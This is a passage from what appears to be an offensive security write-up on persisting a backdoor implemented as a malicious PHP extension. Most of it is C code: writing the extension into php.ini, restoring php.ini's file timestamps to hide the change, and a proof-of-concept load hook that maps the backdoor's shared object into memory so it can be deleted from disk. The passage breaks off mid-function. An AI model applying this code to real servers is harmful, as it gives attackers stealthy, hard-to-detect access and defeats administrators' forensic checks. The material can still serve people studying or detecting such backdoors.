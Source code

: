 ```c
            fwrite(LOCATION, strlen(LOCATION), 1, fp);
            fclose(fp);
            fprintf(stderr, "[+] Extension added to PHP.INI\n");
        }
    }
    else {
        return -1;
    }
    return 1;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The counterpart of this tactic is that if the server is killed in an unexpected way, the MSHUTDOWN hook will not be executed. In the other hand, the timestamp will be modified, so we need to keep that in mind too:

```c
#define PHPINI "/u/know/that/php.ini"
...
struct stat st;
stat(PHPINI, &st);
...// Do changes
new_time.actime = st.st_atime;
new_time.modtime = st.st_mtime;
utime(PHPINI, &new_time);
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Restoring the timestamp is always a cool trick. 

## 0x02 Bring me from memory
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We saw how to restore the php.ini, but we need to delete and restore the backdoor itself (the shared object) because we are working at userland level (if we use a rootkit -a simple LKM for example- we can hide it without problems). At the moment that our extension is loaded, we can save its content in memory easily, then delete the file. Something like:

```c
//Simple PoC
PHP_MINIT_FUNCTION(PoC)
{
    //Executed when the module is loaded
    // Privilege: root (usually)

    int fd, check;
    struct utimbuf new_time;

    fprintf(stderr, "[+] LOADED\n");
    //1) Calculate size of the file
    struct stat st;
    if (stat(LOCATION, &st) == -1) {
        return SUCCESS;
    }
    filesize = st.st_size;

    //2) Open the file 
    fd = open(LOCATION, O_RDONLY, 0);
    if (fd == -1) {
        return SUCCESS;
    }

    //3) Map file to memory
    mapedFile = mmap(NULL, filesize, PROT_READ, MAP_PRIVATE, fd, 0);
    close(fd);
```
